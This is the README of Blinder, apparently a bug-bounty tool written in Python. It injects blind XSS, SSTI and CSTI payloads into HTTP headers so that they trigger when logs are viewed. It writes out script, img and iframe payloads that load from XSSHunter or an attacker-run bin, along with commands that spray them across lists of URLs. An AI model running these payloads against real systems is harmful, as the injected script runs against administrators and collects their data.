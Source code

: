 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Description
- Blinder Is An Automation Tool That's Used To Send Blind Payloads For Many Bugs Like XSS,SSTI,CSTI,..etc. It Allows You To Send Your Blind Payloads On The Requests Headers That May Be Stored On The Server Logs Or By Insecure Application. In Case The User Is Trying To View The Logs With Inseucre Way On The Site Or Even With Insecure Application Your Payload Will Be Triggered And XSSHunter/Your-Bin Should Notify You About It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Been Able To Select Your Own Header On The Requests That Will Be Sent.
- Selecting Your Own Replace String That Will Be Replaced To Your XSSHunter/Bin
- Cleaner Code!

## How To Use:
#### Basic:
- You Can Run Blinder In a Basic Usage By Just Using This Command. Where `-u` Options Is Your XSSHunter Username And `-f` Is The File That Contains The URLs With NewLine Seprator
```
python3 Blinder.py -u hacker -f URLs
```

#### Redirections
- To Disallow/Allow Redirections You Can Use `-r` Options With The Rule You Want. Disallowing Redirections Will Make The Tool Faster But It Might Miss Some Results. By Default Redirections Is Allowed On Blinder

- The Redirection Rules Are `allow` and `deny` In LowerCase. The Program Will Trigger An Error In Case You Used Something Else.
```
python3 Blinder.py -u hacker -f URLs -file -r deny
```
#### Payloads And Multi Payloads.
- In Blinder The Default Payload Is `"><script src=XSSHunter></script>`That's The Same as The Default One On XSShunter Website. In Case You Want To Use Another Payloads For XSS Or Something Else Like SSTI , CSTI You Can Add It Using `-p` Option That Can Be Used With Some Command Like The First Example

- In Case You Want To Use Multi Payloads You Can Add Your Payloads Then Seprate Them Using `,` For Default Usage, See The Second Example For That, In Case You Want To Seprate Them By Something Else You Can Use `-s` Option. And You Will Find It In The Third Example. 

- You Can Select What Text You Want To Get Replaced To Your XSSHunter/Bin Using `--replace` Option. You Will Get a Sample In The Forth Example. Also, In Case You Didn't Add The Replace String The Program Will Use `XXX` For Default.
```
python3 Blinder.py -u hacker -f URLs -p '"><img src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

```
python3 Blinder.py -u hacker -f URLs -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

#### Headers
- In This New Update You Can Select What Headers You Want To Use To Send The Payloads On. The Default Is The `User-Agent` Header But You Can Add Your Own Header Using `--header` Option. See The Example Below

```
python3 Blinder.py -u hacker -f URLs --header test
```

#### External Bin
- In Case You Don't Want To Use XSSHunter And You Have Your Own Requeest Bin That Can Collect The Users Data You Can Use `-b` Option With Your External Bin Including The Protocol `http:` `https:`

```
python3 Blinder.py -b https://site.com/ -f URLs
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
- You Can Also DM Me On Twitter: [@DemoniaSlash](https://twitter.com/DemoniaSlash) 
